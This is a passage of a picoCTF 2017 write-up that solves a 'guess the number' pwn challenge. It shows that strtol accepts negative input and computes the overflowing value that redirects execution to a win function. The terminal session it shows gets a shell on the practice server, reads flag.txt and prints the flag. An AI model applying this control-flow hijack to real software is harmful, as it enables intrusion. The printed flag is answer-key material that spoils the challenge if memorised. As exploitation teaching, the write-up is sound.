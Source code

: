 <ul>
<li>We want val to point to the <code>win</code> address</li>
<li>val gets checked for overflow</li>
<li>There is a 4 bitwise shift to the right</li>
</ul>



<pre class="prettyprint"><code class="language-no-highlight">scanf("%32s",buf);
val=strtol(buf,NULL,10);
val &gt;&gt;=4;</code></pre>

<p>strtol checks for overflow, but it <em>does</em> allow negative numbers. </p>

<p>Our address for <code>win</code> is 0x804852b . In decimal, this is: 134513963. In binary, this is: </p>

<p>1000 0000 0100 1000 0101 0010 1011</p>

<p>We shift <code>win</code> to the left by 4 places. </p>

<p>1000 0000 0100 1000 0101 0010 1011 0000</p>

<p>This is now 2152223408 in decimal. It is greater than a 32 bit integer whose max value is 2147483647. That said, we can <em>use the information that 2152223408 will overflow</em>. We just need to figure out what that number is.</p>

<p><script type="math/tex; mode=display" id="MathJax-Element-8">2152223408 - (2^{31} -1) = 4739761
\\ -(2^{31})+4739761 = -2142743887</script></p>

<p>So, we need to input the number -2142743887</p>



<pre class="prettyprint"><code class="language-no-highlight">&gt; nc shell2017.picoctf.com 40780                                                          
Welcome to the number guessing game!                            
I'm thinking of a number. Can you guess it?                     
Guess right and you get a shell!                                
Enter your number: -2142743887                                  
You entered -2142743887. Let's see if it was right...           
Congratulations! Have a shell:                                  
/bin/sh: 0: can't access tty; job control turned off            
$ ls                                                            
flag.txt                                                        
guess_num                                                       
xinetd_wrapper.sh                                               
$ cat flag.txt                                                  
e08d404edccb7d8259f1fe02acd34894 </code></pre>

<p>The flag is <strong>e08d404edccb7d8259f1fe02acd34894 </strong></p>



<h4 id="ive-got-a-secret">Ive Got A Secret</h4>

<blockquote>
  <p>Hopefully you can find the right format for my <a href="https://webshell2017.picoctf.com/static/8e82ea1a489244bbbd850ad6dd8dd0f7/secret">secret</a>! <a href="https://webshell2017.picoctf.com/static/8e82ea1a489244bbbd850ad6dd8dd0f7/secret.c">Source</a>. Connect on shell2017.picoctf.com:5320.</p>
</blockquote>
